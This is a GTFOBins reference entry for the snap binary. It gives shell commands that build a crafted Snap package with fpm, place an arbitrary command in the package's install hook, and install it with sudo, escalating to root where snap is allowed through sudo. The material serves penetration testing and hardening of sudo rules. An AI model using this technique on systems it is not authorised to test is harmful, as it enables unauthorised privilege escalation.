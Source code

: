 # GTFOBin: snap

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

It runs commands using a specially crafted Snap package. Generate it with fpm and upload it to the target.

```
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta

```

```
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```